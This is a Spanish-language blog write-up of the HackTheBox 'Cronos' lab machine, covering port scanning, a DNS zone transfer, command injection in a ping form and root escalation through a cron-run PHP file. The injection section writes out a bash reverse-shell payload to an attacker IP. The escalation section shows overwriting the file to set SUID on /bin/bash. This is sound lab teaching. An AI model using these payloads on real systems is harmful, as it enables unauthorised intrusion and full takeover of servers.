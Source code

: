 ```yaml
---
layout: single
author: Bast1ant1c
title: HTB cronos
excerpt: "Vamos a resolver la máquina cronos de HackTheBox. ¡Let's hack!"
date: 2022-12-21
classes: wide
header:
  teaser: /assets/images/cronos/01-inicio.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Writeup
  - Cronos
---
```


<p align="center">
<img src="/assets/images/cronos/02-tarjeta.png">
</p>

¡Hola!
En esta ocasión vamos a resolver de la máquina `cronos` de [HackTheBox](https://hackthebox.com/).
La máquina es nivel “Medium”, sin embargo, el nivel siempre se lo pones tú, al enfrentar estos retos, ¡vamos a ponernos hack!

## PREPARACIÓN

Para iniciar nuestra máquina, vamos a crear con nuestra función [mkhack](https://bast1ant1c.github.io/mkhack/) un directorio de trabajo con el nombre `cronos` y los subdirectorios `recon` junto con `exploit`, con el objetivo de organizar la información que recopilemos en la realización de la máquina.

```bash
mkhack cronos
cd !$/recon
```

## RECONOCIMIENTO  

Accedemos al directorio `recon` e iniciamos nuestra fase de reconocimiento sobre el objetivo por medio de nuestra utilidad [osping](https://bast1ant1c.github.io/osping/) detectando el tipo de sistema operativo basado en el `ttl` _time to live_ de una traza **ICMP**.

```bash
osping 10.10.10.13

[*] Detectando sistema operativo ...

[+] 10.10.10.13 ttl=63 >> Linux
```

Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64	Linux
* TTL => 128	Windows

Continuamos con la enumeración de los **65535** puertos en la máquina. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.13 -oG ports | grep open
```
```bash
#Resultados
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar en nuestro objetivo.

```bash
nmap -p22,53,80 -sCV 10.10.10.13 -oG versions
```
```bash
#Resultados
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RECONOCIMIENTO WEB
 
Iniciamos con el reconocimiento del puerto `80` por medio de la utilidad `whatweb` para identificar software que sea potencialmente vulnerable o de utilidad para nosotros.

```bash
whatweb 10.10.10.13
```
```bash
#Resultados
http://10.10.10.13 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.13], Title[Apache2 Ubuntu Default Page: It works]
```

Realizamos un descubrimiento con `nslookup` para identificar `DNS` asociados a la dirección IP.

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

Podemos evidenciar el `DNS` `cronos.htb`, por lo que vamos a agregar en el ficheros `/etc/hosts` esta información.

```bash
sudo vim /etc/hosts
#AGREGAR
10.10.10.13     cronos.htb
```

Ya podemos evidenciar un poco más de información en la pagina web, sin embargo vamos a hacer uso de la utilidad `dig`, para identificar subdominios de nuestro objetivo.

```bash
dig @10.10.10.13 cronos.htb axfr
```
```
#RESULTADOS
; <<>> DiG 9.16.15-Debian <<>> @10.10.10.13 cronos.htb axfr
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

Vamos a realizar el mismo procedimiento anterior, pero esta vez vamos a agregar el subdominio `admin.cronos.htb`.

```bash
sudo vim /etc/hosts
#AGREGAR
10.10.10.13     cronos.htb admin.cronos.htb
```

## WEB EXPLOIT + INTRUSION

Ahora que tenemos dominios y subdominios, procedemos a investigar un poco y encontramos un portal de acceso en el subdominio `admin.cronos.htb` al cual intentamos realizar un ataque `SQLi` exitoso.

<p align="center">
<img src="/assets/images/cronos/03-page.png">
</p>

Al acceder podemos ver que podemos ejecutar el comando traceroute o ping a un objetivo especifico, por lo que vamos a tomar provecho de esta funcionalidad para ejecutar una reverse shell en bash.

Generamos un listener
```bash
nc -lnvp 4564
```

Ejecutamos la reverse shell en el campo de la pagina web y le damos enter para que ejecute el comando.
```bash
8.8.8.8; bash -c "bash -i >& /dev/tcp/10.10.14.2/4564 0>&1"
```

Reverse shell obtenida
```bash
#OUTPUT
www-data@cronos:/var/www/admin$ whoami
www-data
```

## ESCALADA DE PRIVILEGIOS

Una vez que tenemos acceso a la máquina, realizamos el escalamiento de privilegios, en este caso, revisando las tareas `cron`.

```bash
cat /etc/crobtab
```
```bash
#Resultados
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Como podemos ver en los resultados anteriores, identificamos que `artisan` es una tarea que se ejecuta cada minuto con el usuario root, hay que tener en cuenta que tenemos acceso directamente a la ruta donde se ejecuta este script de php, por lo que simplemente vamos a eliminar el archivo `artisan` y generar uno nuevo habilitando con la funcion `system` el permiso `SUID` de `bash`, para finalmente aprovecharnos de este permiso configurado y obtener una shell de un usuario administrador.

Eliminar el archivo `artisan`
```bash
rm /var/www/laravel/artisan
```

Crear el nuevo archivo `artisan`
```bash
nano /var/www/laravel/artisan
<?php
        system("chmod u+s /bin/bash");
?>
```

Monitoreo del permiso `SUID` de `/bin/bash`
```bash
www-data@cronos:/dev/shm$ watch -n 1 ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash -> SIN SUID
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash -> CON SUID
```

Aprovechando el permiso `SUID`

```bash
www-data@cronos:/dev/shm$ bash -p
```

```bash
#Resultados
bash-4.3# whoami
root
```

## FLAGS

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` y `root` 

```bash
#USER
bash-4.3# find / -name user.txt 2>/dev/null | xargs head -c 10; echo
6394a949f7
```

```bash
#ROOT
bash-4.3# find / -name root.txt 2>/dev/null | xargs head -c 10; echo
4491f4cbdd
```

¡Hemos logrado completar la máquina `cronos` de HackTheBox!

<p align="center">
<img src="/assets/images/cronos/04-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.
